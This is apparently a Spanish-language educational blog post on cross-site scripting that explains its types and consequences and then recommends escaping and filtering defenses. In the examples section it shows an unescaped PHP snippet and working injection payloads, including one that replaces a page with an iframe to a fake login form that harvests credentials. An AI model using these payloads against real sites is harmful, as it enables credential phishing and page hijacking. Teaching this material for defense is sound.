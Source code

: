 ```yaml
---
layout: post

title: XSS y sus consequencias 📚
subtitle: Injección de código en webs.

tags: [XSS, PHP, CSS, Seguridad, WEB]

thumbnail-img: /assets/img/lego-man.png
cover-img: /assets/img/spongebob-sick.gif
---
```


## **XSS**

### Tabla de Contenidos

1. [¿Qué es? :fire:](#qué-es)
2. [Tipos](#tipos)
3. [Consecuencias :eyes:](#consecuencias)
4. [Ejemplos](#ejemplos)
5. [¿Cómo evitarlos?](#cómo-evitarlos)
<br>

### ¿Qué es?

> Cross-site scripting (XSS) es una vulnerabilidad de seguridad que permite a un atacante inyectar código (por lo general Javascript) en un sitio web del lado del cliente.

Este tipo de vulnerabilidades son muy fáciles de detectar por parte de un atacante ya que en su mayoría son inyecciones directas del contenido de los parámetros de la url en la web. Por lo que si la entrada en crudo de los parametros se refleja en la salida de la web eso puede significar que existe un punto de entrada.

No hay realmente límite en lo que se puede realizar mediante XSS, ya que el atacante puede hacer cualquier manipulación de la experiencia del usuario.

Estos ataques se dividen en distintas categorías:

### Tipos

- **Almacenados**

  Cuando el ataque persiste en algún tipo de almacenamiento (cache, base datos, ...) y este se devuelve provocando la ejecución del código injectado.

- **Reflejados**

  Cuando el ataque se refleja desde la url al navegador del usuario, manipulando la experiencia de este en la web con XSS.

- **Basados en DOM**

  Cuando a través de un XSS Reflejado se modifican las acciones del navegador frente a los eventos de los elementos de la web afectada.


### Consecuencias

Existen muchas formas de obtener información de un usuario manipulando una web a través de XSS, algunos ejemplos:

- Acceso a microfono, cámara, geolocalización.
- Alterar formularios para obtener credenciales.
- Simular acciones del usuario.
- Reemplazar la web entera con un iframe falso.

![](/assets/img/spongebob-hide.gif)


### Ejemplos

```php
if (isset($_GET["categoria"])) $title_str = ucfirst(urldecode($_GET["categoria"]));
if (isset($_GET["lugar"])) $title_str .= " en ".ucfirst(urldecode($_GET["lugar"]));

echo '<title>'.$title_str.'</title>'.PHP_EOL;
```

<br>

- ```html
  http://*****************/?categoria=<svg/onload=alert('Hola')>"
  ```

  Mismo ejemplo, pero reemplazando toda la web por otra:

  - ```html
    https://*****************/?lugar=</title><script  src="https://ajax.googleapis.com/ajax/libs/jquery/3.5.1/jquery.min.js"></script><script>jQuery('body').replaceWith('<iframe src="https://http.cat/"  style="border:0px;display:block;width:100vw;height:100vh"></iframe>')</script><title>
    ```

  ![](/assets/img/xss_gatos.png)

  Otro ejemplo, pero, esta vez el iframe apunta a un servidor con una réplica casi exacta del panel de login [`localhost:1234`]. La web cuenta con protección para no poder introducir iframes HTTP, pero no es muy difícil obtener un certificado SSL para una web:

  - ```html
    https://*****************/?lugar=</title><script src="https://ajax.googleapis.com/ajax/libs/jquery/3.5.1/jquery.min.js"></script><script>jQuery('body').replaceWith('<iframe src="http://localhost:1234/index.html" style="border:0px;display:block;width:100vw;height:100vh"></iframe>')</script><title>
    ```

    Aunque no tiene SSL, es una dirección local, por lo que el navegador no se va a quejar en el ejemplo, para que un atacante pudiera hacer lo mismo requeriría de una web con SSL.
    
    La réplica del panel login está modificada para que el formulario pase los datos a través de una petición **GET**, por lo que todo lo que se envíe en el formulario, el atacante lo verá perfectamente en los parámetros de la llamada.
    
    

  Lo que vería la **víctima**:
  ![](/assets/img/xss_login.png)

  Lo que vería el **atacante**:
  ![](/assets/img/xss_terminal.png)


### ¿Cómo evitarlos?

En este caso el XSS era debido a que **no se estaba tratando de ninguna forma la entrada del usuario.**

- [htmlspecialchars()](https://www.php.net/manual/es/function.htmlspecialchars.php)

  Permite convertir todos los carácteres especiales a entidades HTML.

  **Muy importante conocer qué hace realmente esta función, ya que permite distintas entradas para filtrar según las necesidades.**

  

- [htmlentities()](https://www.php.net/manual/es/function.htmlentities)

  Esta función se asemeja a **htmlspecialchars()**, pero, convierte totalmente la entrada en entidades HTML.

  

  **HTML entities:** Son carácteres no interpretados como etiquetas HTML/ JS/ CSS, por lo que no permiten la inyección de código, pero se muestran como los carácteres que representan.

  

  INPUT:	`<script>alert('Hola')</script>`

  OUTPUT: `&lt;script&gt;alert(&#039;Hola&#039;)&lt;/script&gt;`

  

- **Librerías de terceros**

  - HTML Purifier

- **Frameworks**

  - Muchos frameworks cuentan con funciones para limpiar la entrada del usuario de forma segura.

- **Template Engines**

  - Twig
  - Ninja
  - Smarty

  Éstos cuentan con funciones de escape automático a la hora de imprimir el contenido de una variable al cliente.

  

Estas son algunas medidas recomendadas para evitar este tipo de ataques:

  - **Filtrar entrada**
  
    En el punto donde se recibe la entrada del usuario, filtra la entrada en función de lo que se espera o de la entrada válida.
    
    Es muy importante **nunca confiar** en que la entrada va a ser siempre la esperada.
    
    

  - **Codificar datos en la salida**
  
    Codificar la salida para evitar que se interprete como contenido activo.
    
    Si en algún punto existe XSS almacenado, por ejemplo en la base de datos, si la salida se muestra en crudo, puede afectar a todos los usuarios que puedan recibir esa entrada inyectada.
    
    **Por ejemplo**, si desde el lado del servidor no se limpia los campos de registro de un usuario, y estos mismos campos se renderizan en un listado de usuarios, el código inyectado podría ejecutarse en el navegador del usuario con permisos superiores.
    
    